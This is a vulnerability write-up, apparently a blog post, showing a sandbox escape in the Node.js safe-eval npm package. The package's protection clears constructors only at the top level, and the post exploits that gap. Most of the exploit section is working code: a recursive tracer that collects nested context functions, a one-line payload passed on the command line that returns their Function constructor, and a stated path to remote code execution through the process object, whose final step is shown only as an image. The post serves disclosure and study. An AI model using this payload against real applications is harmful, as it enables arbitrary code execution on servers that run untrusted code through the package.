 Github: https://github.com/hacksparrow/safe-eval

Npm: https://www.npmjs.com/package/safe-eval

Safe-eval module uses the standard nodejs “VM” module to execute user’s supplied javascript code in safe way, the module performs that by appending the following code to the user supplied input.

```

 (function() { 
 Function = undefined; 
 const keys = Object.getOwnPropertyNames(this).concat(['constructor']); 
 keys.forEach((key) => { 
 const item = this[key]; 
 if (!item || typeof item.constructor !== 'function') return; 
 this[key].constructor = undefined; 
 }); 
 })();
```
This protection loop over all the build in javascript objects and write its constructor value to “undefined” which prevent the user from calling any constructor.

Weakness
---------
The above code doesn’t recursively check “this” which means that if there is a variable in the context like the following one the above code will not be able to erase the x.v.constructor.

```

 var context = { 
 x: {v: 
	function() { 
		return 1 
		} 
	} 
 };
```
Application using safe-eval usually pass the variables the code needs into the context variable, those variables will be available for the sandbox to access.

If the variable contains a function declaration under a 2nd degree (or more) object, we can escape the sandbox by referencing to this variable constructor.

Exploit
---------
The following exploit I wrote will loop over all the declared variables in the sandbox context recursively and once it detects the above situation it will use the function constructor to escape the sandbox.

```

 var stack = []; 
 
 function trace(context) { 
	if (context === null) return; 
		const keys = Object.getOwnPropertyNames(context); 
		for (var i = 0; i < keys.length; i++) { 
			key = keys[i] 
			if (typeof context[key] === 'object') { 
				result = trace(context[key]); 
			} else if (typeof context[key] === 'undefined' || typeof context[key].constructor === 'undefined') continue; 
	else if (typeof context[key].constructor.constructor === 'function') { 
	stack.push(context[key]); 
		} 
 
	} 
 } 
 
 trace(global); 
 var suc = []; 
 for (var i = 0; i < stack.length; i++) { 
 try { 
 stack[i].constructor('global')(); 
 suc.push(stack[i]); 
 } catch (e) { 
 
 } 
 }
```
Now lets assume that the application using safe-eval is passing a context in a vulnerable way as below.

```

 root@kali:~/Desktop/eval# cat safe.js 
 
 var safeeval = require('./safe-eval-master'); 
 var src = process.argv[2]; 
 const sandbox = { x: {v:function(){return 2}} }; 
 console.log(safeeval(src,sandbox))
```
we will pass the payload like this

```
root@kali:~/Desktop/eval# nodejs safe.js "1;var stack = [];function trace(context){console.log(context);if (context===null) return;const keys = Object.getOwnPropertyNames(context);for(var i=0;i<keys.length;i++){key = keys[i];if(typeof context[key] === 'object'){result = trace(context[key]);}else if (typeof context[key] === 'undefined' || typeof context[key].constructor === 'undefined') continue;else if( typeof context[key].constructor.constructor === 'function'){stack.push(context[key]);}}};trace(this);var suc=[];for(var i=0;i<stack.length;i++){try{stack[i].constructor('global')();suc.push(stack[i]) }catch(e){ }};suc"
```
This payload will return the constructor of the function “x.v”, in order to gain access to the process object and gain RCE we can do something like this.

[IMG]
